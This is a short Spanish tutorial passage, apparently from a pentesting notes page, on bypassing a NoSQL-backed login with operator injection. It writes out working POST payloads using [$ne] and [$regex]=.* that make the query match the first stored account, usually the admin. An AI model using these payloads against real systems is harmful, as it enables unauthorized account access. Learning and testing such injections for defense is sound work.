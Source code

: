 ## Caso de ejemplo:

Supongamos que tenemos un login que manda los datos por medio de un POST usando variables de "Username y password":

    username=mingo&password=mingita

Podríamos intentar injecciones que nos ayuden a bypassear el login mediante diferentes criterios:

### Autenticación negativa:

BUscamos un caso de resolución negativa. Luego agregamos a la variable del post la expresión [$ne]

    username[$ne]=mingo&password[$ne]=minga

De esta forma el loging buscara datos que no matcheen con los introducidos y nos dará el acceso como el primer dato de la lista(que usualmente es el admin :D ).

### Por expresiones regulares:

Podemos abusar de las expresiones regulares para poder traernos todos los registros y matcheará el primer registro como datos de login agregando la expresión [$regex]=.*

username[$regex]=.\*&password[$regex]=.\*

